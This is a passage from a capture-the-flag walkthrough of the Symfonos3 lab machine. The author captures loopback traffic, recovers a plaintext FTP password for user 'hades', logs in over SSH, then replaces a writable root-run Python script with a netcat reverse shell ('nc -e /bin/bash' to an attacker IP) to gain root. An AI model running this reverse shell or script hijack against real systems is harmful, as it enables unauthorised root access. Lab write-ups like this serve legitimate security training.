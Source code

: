 ```
$ tcpdump -i lo -w tcp.pcap
tcpdump -i lo -w tcp.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```
> - -w 
> - -i Listen on interface

Run this for few moment. And Started Python server in the machine and downloaded the ``ftp.pcap`` to my machine.
![Untitled](/img/symfonos3/11.png)

I used Wireshark to see whats there and found User ``Hades`` Password.
![Untitled](/img/symfonos3/12.png)

Logged in SSH with ``hades:PTpZTfU4vxgzvRBE``[br/](br/)
![Untitled](/img/symfonos3/13.1.png)

## Privilege Escalation:

We know the python script is in ``/opt/ftpclient`` and now we have permission to write on the script.

Removed that old script and I created a reverse shell python script in my machine and uploaded it to the machine.
![Untitled](/img/symfonos3/13.png)

```
import sys
import os
os.system("nc -e /bin/bash 192.168.1.103 1234")
```

Started my NC listener and wait for sometime and BOOM I'm root!![br/](br/)
![Untitled](/img/symfonos3/14.png)